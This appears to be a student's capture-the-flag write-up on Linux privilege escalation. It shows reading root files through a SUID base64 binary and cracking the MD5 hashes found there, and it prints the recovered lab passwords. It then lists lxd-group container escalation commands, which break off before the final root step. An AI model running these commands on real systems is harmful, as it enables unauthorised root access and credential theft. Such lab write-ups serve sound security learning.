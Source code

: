There's not really an explanation for this as it's just use and go, but feel free to look into them if you want. 

### Base64 SUID
I uploaded the tool linpeas to the linux machine. This is a tool designed to find different attack vectors for privesc. It looks at things like SUID bits, CVE's, unusual permissions or groups, etc. One of the things it found was the SUID bit on the base64 command. 

Since this was an unusual command that uses SUID, and it was highligheted by linpeas, I decided to look into it with GTFObin. GTFObin is a website that details various ways to escalate privileges with different commands/permissions to commands. Commonly, all of them use SUID. 

~~~bash
export LFILE=(path of file you want to read)
/usr/bin/base64 "$LFILE" | base64 --decode
~~~

So, what this exploit does is it encodes the file that you want to read (in this case, LFILE). Since it has SUID permissions, it can read any file on the computer. Including files in the root directory. In the root directory there was a file called Passwords (or something like that). Anyways, I obviously want to read the file. So I specify the file path /root/password and export that to the variable LFILE. The commands listed above encrypts the password file, and due to base64's nature, it outputs the data when it decrypts the file. This way we can see the contents inside the password file. 

The passwords I received were encrypted, so I put it into chatgpt and it told me it was md5 encryption, which is very weak. After decrypting it with hashcat it I found out the passwords for root and chet were root:gangsta and chet:orbital#1

I could also use this exploit to see the activation code for the file that the user riki owned. 

### lxd Group Permission
Saul had dangerous group permissions to lxd. A normal user shouldn't have access to this group. I wasn't able to do this exploit because the environment bugged out, but I will show how to do it.

Most of this is copied from HackTrick's lxd/lxc priv esc

~~~bash
sudo su
#Install requirements
sudo apt update
sudo apt install -y git golang-go debootstrap rsync gpg squashfs-tools

#Clone repo
git clone https://github.com/lxc/distrobuilder

#Make distrobuilder
cd distrobuilder
make

#Prepare the creation of alpine
mkdir -p $HOME/ContainerImages/alpine/
cd $HOME/ContainerImages/alpine/
wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml

#Create the container (This is DIFFERENT from HackTricks and other tutorials)
sudo $HOME/go/bin/distrobuilder build-incus --type=split alpine.yaml -o image.release=3.18

#Upload both files to the victim user, then:
lxc image import lxd.tar.xz rootfs.squashfs --alias alpine

# Check the image is there
lxc image list

# Create the container
lxc init alpine privesc -c security.privileged=true

# List containers (lxc list is optional)
~~~